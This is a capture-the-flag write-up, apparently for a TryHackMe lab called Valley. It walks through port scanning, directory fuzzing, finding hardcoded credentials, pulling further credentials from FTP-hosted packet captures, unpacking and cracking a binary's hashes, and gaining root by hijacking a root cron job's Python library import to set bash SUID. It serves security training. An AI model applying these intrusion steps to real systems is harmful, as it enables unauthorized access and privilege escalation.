


## Scanning
We scan the open ports with the **nmap** tool with scripts and software versions.

```
nmap -p22,80,37370 10.10.140.77 -sVC -oN nmap.txt
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-27 10:32 CEST
Nmap scan report for 10.10.140.77
Host is up (0.049s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c2842ac1225a10f16616dda0f6046295 (RSA)
|   256 429e2ff63e5adb51996271c48c223ebb (ECDSA)
|_  256 2ea0a56cd983e0016cb98a609b638672 (ED25519)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
37370/tcp open  ftp     vsftpd 3.0.3
Service Info: OSs: Linux, Unix; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration
Accessing the only web service, we find the gallery software.


We enumerate directory listing at */pricing/*:


We download and read note.txt file, this give us a hint, "*notes*", Its says it in plural, there must be more than one hidden note.
```
> cat note.txt
J,
Please stop leaving notes randomly on the website
-RP
```

We enumerate all directory with **wfuzz** tool:
```
000000083:   403        9 L      28 W       277 Ch      "icons"                    
000000168:   200        16 L     58 W       945 Ch      "gallery"                  
000000269:   200        14 L     40 W       566 Ch      "static"                   
000000773:   200        17 L     70 W       1139 Ch     "pricing" 
```

With the above list of directories, I started to enumerate in depth one by one, until I found the "*00*" file in the */static/* directory:

```
> wfuzz -c --hc 404 -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 40 http://10.10.140.77/static/FUZZ

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.140.77/static/FUZZ
Total requests: 4713

=====================================================================
ID           Response   Lines    Word       Chars       Payload                    
=====================================================================

000000025:   403        9 L      28 W       277 Ch      ".htpasswd"                
000000023:   403        9 L      28 W       277 Ch      ".hta"                     
000000024:   403        9 L      28 W       277 Ch      ".htaccess"                
000000097:   200        5 L      19 W       127 Ch      "00"  <-----                      
000000115:   200        2129 L   22893 W    596160 Ch   "11"                       
000000165:   200        1772 L   16566 W    400103 Ch   "3"                        
000000108:   200        8779 L   85359 W    2162076 C   "10"                       
                                            h                                      
000000116:   200        9815 L   82800 W    2097024 C   "12"                       
                                            h                                      
000000107:   200        10415    97810 W    2352523 C   "1"                        
                        L                   h                                      
000000186:   200        4438 L   41554 W    1129307 C   "9"                        
                                            h                                      
000000181:   200        9284 L   78217 W    2009512 C   "6"                        
                                            h                                      
000000118:   200        16579    137301 W   3488282 C   "13"                       
                        L                   h                                      
000000132:   200        18410    147882 W   3459246 C   "2"                        
                        L                   h                                      
000000120:   200        14242    130114 W   3300836 C   "15"                       
                        L                   h                                      
000000119:   200        16032    140843 W   3646554 C   "14"                       
                        L                   h                                      
000000177:   200        5449 L   51237 W    1353731 C   "5"                        
                                            h                                      
000000183:   200        19521    194371 W   4944368 C   "7"                        
                        L                   h                                      
000000185:   200        33927    310482 W   7525600 C   "8"                        
                        L                   h                                      
000000171:   200        33504    311545 W   7051400 C   "4"                        
                        L                   h                                      

Total time: 11.93464
Processed Requests: 4713
Filtered Requests: 4694
Requests/sec.: 394.9005
```
We access the file and find some notes from the developer *valleyDev*, with a development path that has not yet been removed.


We access the path and find an administration panel.


## Exploitation
We see the source code and find the hardcoded credentials:



We access the file "*devNotes37370.txt*" and found the hint for the FTP connection with the credentials.


We connection to the FTP service, enumerate three PCAP files and download all files:

```
> ftp 10.10.140.77 37370
Connected to 10.10.140.77.
220 (vsFTPd 3.0.3)
Name (10.10.140.77:kali): ******
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||63011|)
150 Here comes the directory listing.
-rw-rw-r--    1 1000     1000         7272 Mar 06 13:55 siemFTP.pcapng
-rw-rw-r--    1 1000     1000      1978716 Mar 06 13:55 siemHTTP1.pcapng
-rw-rw-r--    1 1000     1000      1972448 Mar 06 14:06 siemHTTP2.pcapng
226 Directory send OK.
ftp> 
```
We open to the files with **Wireshark** or **NetworkMiner**, enumerate other credentials in an HTTP service:


We reuse the credentials found in the SSH service and read the *user.txt* file:

```
> ssh valleyDev@10.10.140.77
The authenticity of host '10.10.140.77 (10.10.140.77)' can't be established.
ED25519 key fingerprint is SHA256:cssZyBk7QBpWU8cMEAJTKWPfN5T2yIZbqgKbnrNEols.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.140.77' (ED25519) to the list of known hosts.
valleyDev@10.10.140.77's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-139-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 * Introducing Expanded Security Maintenance for Applications.
   Receive updates to over 25,000 software packages with your
   Ubuntu Pro subscription. Free for personal use.

     https://ubuntu.com/pro
valleyDev@valley:~$ sudo -l
[sudo] password for valleyDev: 
Sorry, user valleyDev may not run sudo on valley.
valleyDev@valley:~$ ls -lna
total 24
drwxr-xr-x 5 1002 1002 4096 Mar 13 08:17 .
drwxr-xr-x 5    0    0 4096 Mar  6 13:19 ..
-rw-r--r-- 1    0    0    0 Mar 13 09:03 .bash_history
drwx------ 3 1002 1002 4096 Mar 20 20:02 .cache
drwx------ 4 1002 1002 4096 Mar  6 13:18 .config
drwxr-xr-x 3 1002 1002 4096 Mar  6 13:18 .local
-rw-rw-rw- 1    0    0   24 Mar 13 08:17 user.txt
valleyDev@valley:~$ cat user.txt 
THM{****************}
valleyDev@valley:~$ 
```


## Privilege Escalation
We enumerate the *valleyAuthenticator* file and download the file in our machine.

```
valleyDev@valley:/mnt$ cd /home
valleyDev@valley:/home$ ls -lna
total 752
drwxr-xr-x  5    0    0   4096 Mar  6 13:19 .
drwxr-xr-x 21    0    0   4096 Mar  6 15:40 ..
drwxr-x---  4 1001 1001   4096 Mar 20 20:03 siemDev
drwxr-x--- 16 1000 1000   4096 Mar 20 20:54 valley
-rwxrwxr-x  1 1000 1000 749128 Aug 14  2022 valleyAuthenticator
drwxr-xr-x  5 1002 1002   4096 Mar 13 08:17 valleyDev
valleyDev@valley:/home$ 

valleyDev@valley:/home$ file valleyAuthenticator
valleyAuthenticator: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, no section header
valleyDev@valley:/home$ 
```
We execute binary, testing with an credentials and we can see that it does not work: 

```
> chmod +x valleyAuthenticator

> ./valleyAuthenticator
Welcome to Valley Inc. Authenticator
What is your username: valleyDev
What is your password: ********
Wrong Password or Username
```

We use binary **strings** in the *valleyAuthenticator* file and we can see that it has been protected with **UPX** tool: 

```
> strings valleyAuthenticator | more
UPX!
"E&8
/p8S
a64\
```
But, we can use the flag "*-d*" for descompress the file with **UPX** tool:

```
> upx -d valleyAuthenticator
                       Ultimate Packer for eXecutables
                          Copyright (C) 1996 - 2020
UPX 3.96        Markus Oberhumer, Laszlo Molnar & John Reiser   Jan 23rd 2020

        File size         Ratio      Format      Name
   --------------------   ------   -----------   -----------
   2285616 <-    749128   32.78%   linux/amd64   valleyAuthenticator

Unpacked 1 file.

> strings valleyAuthenticator | more
<$I9
|$0H
D$@H9
D$0H
D$@H
D$ H
D$ H
<$H9
<$H9
<$H9
AVAUL
<$H9
<$H9
=wq
u+UH
```

We open the binary with the Frida tool and enumerate two hashes in MD5:


We can use the page [hashes.com](https://hashes.com) and decrypt the hashes in seconds:


We authenticated with the valley's credentials and we can see 
that we belong to the group "*valleAdmin*":

```
valleyDev@valley:/home$ su valley
Password: 
valley@valley:/home$ sudo -l
[sudo] password for valley: 
Sorry, user valley may not run sudo on valley.
valley@valley:/home$ ls -lna
total 752
drwxr-xr-x  5    0    0   4096 Mar  6 13:19 .
drwxr-xr-x 21    0    0   4096 Mar  6 15:40 ..
drwxr-x---  4 1001 1001   4096 Mar 20 20:03 siemDev
drwxr-x--- 16 1000 1000   4096 Mar 20 20:54 valley
-rwxrwxr-x  1 1000 1000 749128 Aug 14  2022 valleyAuthenticator
drwxr-xr-x  5 1002 1002   4096 Mar 13 08:17 valleyDev
valley@valley:/home$ id
uid=1000(valley) gid=1000(valley) groups=1000(valley),1003(valleyAdmin)
valley@valley:/home$ cd valley
valley@valley:~$ ls -lna
total 84
drwxr-x--- 16 1000 1000 4096 Mar 20 20:54 .
drwxr-xr-x  5    0    0 4096 Mar  6 13:19 ..
-rw-------  1 1000 1000    0 Mar 21 07:30 .bash_history
-rw-r--r--  1 1000 1000  220 Aug 15  2022 .bash_logout
-rw-r--r--  1 1000 1000 3771 Aug 15  2022 .bashrc
drwx------ 12 1000 1000 4096 Mar 20 20:02 .cache
drwx------ 14 1000 1000 4096 Mar  6 13:45 .config
drwxr-xr-x  2 1000 1000 4096 Mar  3 10:01 Desktop
drwxr-xr-x  2 1000 1000 4096 Aug 11  2022 Documents
drwxr-xr-x  2 1000 1000 4096 Mar  6 13:39 Downloads
drwxrwxrwx  2 1000 1000 4096 Mar 20 15:06 exp_dir
drwx------  3 1000 1000 4096 Mar  3 10:28 .gnupg
drwxr-xr-x  3 1000 1000 4096 Aug 15  2022 .local
drwxr-xr-x  2 1000 1000 4096 Aug 11  2022 Music
drwxr-xr-x  2 1000 1000 4096 Aug 11  2022 Pictures
-rw-r--r--  1 1000 1000  807 Aug 15  2022 .profile
drwxr-xr-x  2 1000 1000 4096 Aug 11  2022 Public
-rw-rw-r--  1 1000 1000   66 Aug 15  2022 .selected_editor
drwx------  2 1000 1000 4096 Aug 15  2022 .ssh
drwxr-xr-x  2 1000 1000 4096 Aug 11  2022 Templates
drwxr-xr-x  2 1000 1000 4096 Aug 11  2022 Videos
-rw-rw-r--  1 1000 1000  174 Mar 20 14:42 .wget-hsts
valley@valley:~$ 
```

We launch the **pspy** tool and enumerate a Python script executed with root user:



We don't have permission to writed the file, but we see the *base64* python library:

```
valley@valley:~$ ll python3 /photos/script/photosEncrypt.py
ls: cannot access 'python3': No such file or directory                                      
-rwxr-xr-x 1 root root 621 Mar  6 15:43 /photos/script/photosEncrypt.py*                    
valley@valley:~$                                                           

valley@valley:~$ ll python3 /photos/script/photosEncrypt.py
ls: cannot access 'python3': No such file or directory                                      
-rwxr-xr-x 1 root root 621 Mar  6 15:43 /photos/script/photosEncrypt.py*                    
valley@valley:~$ cat /photos/script/photosEncrypt.py                                        
#!/usr/bin/python3                                                                          
import base64                                                                               
for i in range(1,7):                                                                        
# specify the path to the image file you want to encode                                     
        image_path = "/photos/p" + str(i) + ".jpg"                                          
                                                                                            
# open the image file and read its contents                                                 
        with open(image_path, "rb") as image_file:                                          
          image_data = image_file.read()                                                    
                                                                                            
# encode the image data in Base64 format                                                    
        encoded_image_data = base64.b64encode(image_data)                                   
                                                                                            
# specify the path to the output file                                                       
        output_path = "/photos/photoVault/p" + str(i) + ".enc"                              
                                                                                            
# write the Base64-encoded image data to the output file                                    
        with open(output_path, "wb") as output_file:                                        
          output_file.write(encoded_image_data)                                             
valley@valley:~$   
```

We see the permission for the *base64.py* file, we can see that it can be edited and executed by the root user or by the "*valleAdmin*" group, and we belong to this one!

```
valley@valley:/photos$ ll /usr/lib/python3.8/base64.py 
-rwxrwxr-x 1 root valleyAdmin 20382 Mar 13 03:26 /usr/lib/python3.8/base64.py*
valley@valley:/photos$ id
uid=1000(valley) gid=1000(valley) groups=1000(valley),1003(valleyAdmin)
valley@valley:/photos$ 
```

We edit the file, import the "*os*" library to execute a line that allows us to escalate privileges on a bash:


We see the current status of the bash, wait a few minutes until the scheduled task is executed and we see that it has worked, so we raise a bash granting us the inherited permissions and read the *root.txt* file

```
valley@valley:/photos$ ll /usr/bin/bash
-rwxr-xr-x 1 root root 1183448 Apr 18  2022 /usr/bin/bash*
valley@valley:/photos$ ll /usr/bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /usr/bin/bash*

valley@valley:/photos$ /usr/bin/bash -p
bash-5.0# id 
uid=1000(valley) gid=1000(valley) euid=0(root) groups=1000(valley),1003(valleyAdmin)
bash-5.0# ls -lna /root
total 56
drwx------  8 0 0 4096 Mar 13 08:17 .
drwxr-xr-x 21 0 0 4096 Mar  6 15:40 ..
-rw-------  1 0 0    0 Mar 21 07:30 .bash_history
-rw-r--r--  1 0 0 3106 Dec  5  2019 .bashrc
drwx------  2 0 0 4096 Mar 20 20:04 .cache
drwxr-xr-x  4 0 0 4096 Mar  6 13:02 .config
drwx------  4 0 0 4096 Aug 15  2022 .gnupg
drwxr-xr-x  3 0 0 4096 Aug 11  2022 .local
-rw-------  1 0 0   49 Mar  3 10:19 .mysql_history
-rw-r--r--  1 0 0  161 Dec  5  2019 .profile
-rw-r--r--  1 0 0   37 Mar 13 08:17 root.txt
-rw-r--r--  1 0 0   66 Aug 15  2022 .selected_editor
drwx------  3 0 0 4096 Aug 11  2022 snap
drwx------  2 0 0 4096 Aug 14  2022 .ssh
-rw-r--r--  1 0 0  222 Aug 15  2022 .wget-hsts
bash-5.0# cat /root/root.txt
THM{********************}
bash-5.0# 
```